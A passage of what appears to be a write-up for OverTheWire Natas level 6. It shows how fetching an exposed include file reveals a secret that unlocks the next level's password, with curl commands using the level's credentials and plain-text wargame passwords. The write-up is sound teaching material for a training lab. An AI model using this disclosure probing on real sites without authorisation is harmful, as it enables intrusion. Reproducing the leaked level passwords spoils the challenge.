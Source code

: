 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9

This time the source code includes some logic for a secret to be entered. There was a line that said `include "includes/secret.inc";`, so I figured I would try the url `http://natas6.natas.labs.overthewire.org/includes/secret.inc`. Sure enough, it contained the secret: FOEIUWGHFEEUHOFUOIU

After inputting the secret, we get the password 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9

We could accomplish the same results with curl:

```bash
curl --silent --user natas6:aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1 http://natas6.natas.labs.overthewire.org/includes/secret.inc # get secret

curl --silent --user natas6:aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1 --data "secret=FOEIUWGHFEEUHOFUOIU&submit=Submit+Query" http://natas6.natas.labs.overthewire.org | grep "password for natas7" # get password for level 7
```
